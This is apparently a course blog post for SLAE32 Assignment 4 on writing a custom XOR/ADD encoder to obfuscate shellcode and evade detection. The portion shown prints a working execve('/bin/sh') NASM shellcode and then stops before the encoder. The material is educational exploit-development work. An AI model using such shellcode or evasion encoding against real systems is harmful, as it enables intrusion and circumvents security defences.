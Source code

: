 ```yaml
---
title: "SLAE32 - Assignment #4 - Custom Encoder"
tags: ["slae32", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 4<sup>th</sup> Assignment of the SLAE32 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=3" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 32-bit Assembly language for the Intel Architecture (IA-32) family of processors on the Linux platform.

The purpose of this assignment is to create a custom encoder (encrypter), which obfuscates the shellcode in order to evade detection. The following operations were used: `XOR` each byte with a static key and `ADD` a constant number.

My code can be found in my Github: <a href="https://github.com/geobour98/slae32" target="_blank">geobour98's Github</a>.

## Encryption

The first thing we want to do is to extract the shellcode from a program that is going to be encrypted. The following `Assembly` program from the course materials calls `execve` syscall, which is used to execute a program, on the executable "/bin/sh".

The whole `Assembly` program is the following:

```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com 
;
;
; Purpose: 

global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 
	
	push 0x68732f2f
	
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```
